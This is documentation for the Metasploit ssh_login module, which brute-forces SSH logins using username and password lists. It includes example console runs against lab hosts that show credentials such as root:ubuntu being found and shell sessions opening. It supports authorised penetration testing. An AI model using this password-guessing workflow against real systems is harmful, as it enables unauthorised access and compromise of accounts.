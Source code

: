 ## SSH Service

  SSH, Secure SHell, is an encrypted network protocol used to remotely interact with an Operating System at a command line level.  SSH is available on most every system, including Windows, but is mainly used by *nix administrators.
  This module attempts to login to SSH with username and password combinations.  For public/private SSH keys, please use `auxiliary/scanner/ssh/ssh_login_pubkey`.
  It should be noted that some modern Operating Systems have default configurations to not allow the `root` user to remotely login via SSH, or to only allow `root` to login with an SSH key login.

## Verification Steps

  1. Install SSH and start it.
  2. Start msfconsole
  3. Do: ` use auxiliary/scanner/ssh/ssh_login`
  4. Do: `set rhosts`
  5. Do: set usernames and passwords via any of the available options
  5. Do: `run`
  6. You will hopefully see something similar to: `[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '`, and a shell opened.

## Options

  **BLANK_PASSWORD**

  Boolean value on if an additional login attempt should be attempted with an empty password for every user.
  
  **PASSWORD**
  
  Password to try for each user.
  
  **PASS_FILE**
  
  A file containing a password on every line.  Kali linux example: `/usr/share/wordlists/metasploit/password.lst`

  **RHOSTS**
  
  Either a comma space (`, `) separated list of hosts, or a file containing list of hosts, one per line.  File Example: `file://root/ssh_hosts.lst`, list example: `192.168.0.1` or `192.168.0.1, 192.168.0.2`

  **STOP_ON_SUCCESS**
  
  If a valid login is found on a host, immediately stop attempting additional logins on that host.

  **USERNAME**
  
  Username to try for each password.
  
  **USERPASS_FILE**
  
  A file containing a username and password, separated by a space, on every line.  An example line would be `username password`
  
  **USER_AS_PASS**
  
  Boolean value on if an additional login attempt should be attempted with the password as the username.
  
  **USER_FILE**
  
  A file containing a username on every line.

  **VERBOSE**
  
  Show a failed login attempt.  This can get rather verbose when large `USER_FILE`s or `PASS_FILE`s are used.  A failed attempt will look similar to the following: `[-] SSH - Failed: 'msfadmin:virtual'`

## Option Combinations

It is important to note that usernames and passwords can be entered in multiple combinations.  For instance, a password could be set in `PASSWORD`, be part of either `PASS_FILE` or `USERPASS_FILE`, be guessed via `USER_AS_PASS` or `BLANK_PASSWORDS`.
This module makes a combination of all of the above when attempting logins.  So if a password is set in `PASSWORD`, and a `PASS_FILE` is listed, passwords will be generated from BOTH of these.

## Scenarios

  Example run against:
  * Ubuntu 14.04 Server with root login permitted: 192.168.2.156
  * Ubuntu 16.04 Server: 192.168.2.137
  * Metasploitable: 192.168.2.46
  * Metasploitable 2: 192.168.2.35

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > cat /root/ssh_passwords.lst
[*] exec: cat /root/ssh_passwords.lst

msfadmin
badpassword
root
ubuntu

msf auxiliary(ssh_login) > set pass_file /root/ssh_passwords.lst
pass_file => /root/ssh_passwords.lst
msf auxiliary(ssh_login) > cat /root/ssh_un.lst
[*] exec: cat /root/ssh_un.lst

msfadmin
badpassword
root
ubuntu

msf auxiliary(ssh_login) > set user_file /root/ssh_un.lst
user_file => /root/ssh_un.lst
msf auxiliary(ssh_login) > cat /root/ssh_hosts.lst
[*] exec: cat /root/ssh_hosts.lst

192.168.2.156
192.168.2.137
192.168.2.35
192.168.2.46
msf auxiliary(ssh_login) > set rhosts file://root/ssh_hosts.lst
rhosts => file://root/ssh_hosts.lst
msf auxiliary(ssh_login) > set verbose false
verbose => false
msf auxiliary(ssh_login) > set threads 4
threads => 4
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[*] SSH - Starting bruteforce
[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[+] SSH - Success: 'msfadmin:msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Command shell session 5 opened (192.168.2.117:44415 -> 192.168.2.46:22) at 2017-02-22 20:26:13 -0500
[*] Command shell session 6 opened (192.168.2.117:36107 -> 192.168.2.35:22) at 2017-02-22 20:26:13 -0500
[+] SSH - Success: 'root:ubuntu' 'uid=0(root) gid=0(root) groups=0(root) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 7 opened (192.168.2.117:32829 -> 192.168.2.156:22) at 2017-02-22 20:26:35 -0500
[+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare) Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 8 opened (192.168.2.117:42205 -> 192.168.2.156:22) at 2017-02-22 20:26:42 -0500
[+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 9 opened (192.168.2.117:37027 -> 192.168.2.137:22) at 2017-02-22 20:26:44 -0500
[*] Scanned 3 of 4 hosts (75% complete)
[*] Scanned 4 of 4 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -l

Active sessions
===============

  Id  Type          Information                              Connection
  --  ----          -----------                              ----------
  5   shell /linux  SSH msfadmin:msfadmin (192.168.2.46:22)  192.168.2.117:44415 -> 192.168.2.46:22 (192.168.2.46)
  6   shell /linux  SSH msfadmin:msfadmin (192.168.2.35:22)  192.168.2.117:36107 -> 192.168.2.35:22 (192.168.2.35)
  7   shell /linux  SSH root:ubuntu (192.168.2.156:22)       192.168.2.117:32829 -> 192.168.2.156:22 (192.168.2.156)
  8   shell /linux  SSH ubuntu:ubuntu (192.168.2.156:22)     192.168.2.117:42205 -> 192.168.2.156:22 (192.168.2.156)
  9   shell /linux  SSH ubuntu:ubuntu (192.168.2.137:22)     192.168.2.117:37027 -> 192.168.2.137:22 (192.168.2.137)
```

  Example run against:
  * Windows 10 w/ Linux Subsystem

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set rhosts 192.168.2.140
rhosts => 192.168.2.140
msf auxiliary(ssh_login) > set username winuser
username => winuser
msf auxiliary(ssh_login) > set password "badpassword"
password => badpassword
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'winuser:badpassword' ''
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.117:42227 -> 192.168.2.140:22) at 2017-02-22 20:40:12 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -l

Active sessions
===============

  Id  Type     Information                               Connection
  --  ----     -----------                               ----------
  1   shell /  SSH winuser:badpassword (192.168.2.140:22)  192.168.2.117:42227 -> 192.168.2.140:22 (192.168.2.140)

```

  Example run against:
  * Windows 10 w/ Bitvise SSH Server (WinSSHD) version 7.26-r2 and a virtual account created
  
  It is important to note here that the module gives back a **Success**, but then errors when trying to identify the remote system.
  This should be enough info to manually exploit via a regular SSH command.

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set rhosts 192.168.2.140
rhosts => 192.168.2.140
msf auxiliary(ssh_login) > set username virtual
username => virtual
msf auxiliary(ssh_login) > set password virtual
password => virtual
msf auxiliary(ssh_login) > exploit

[*] SSH - Starting bruteforce
[+] SSH - Success: 'virtual:virtual' 'id: Command not found.  help ?: Command not found.  '
[!] No active DB -- Credential data will not be saved!
[*] 192.168.2.140 - Command shell session 4 closed.  Reason: Died from EOFError
[*] Command shell session 4 opened (192.168.2.117:36169 -> 192.168.2.140:22) at 2017-02-22 21:20:24 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
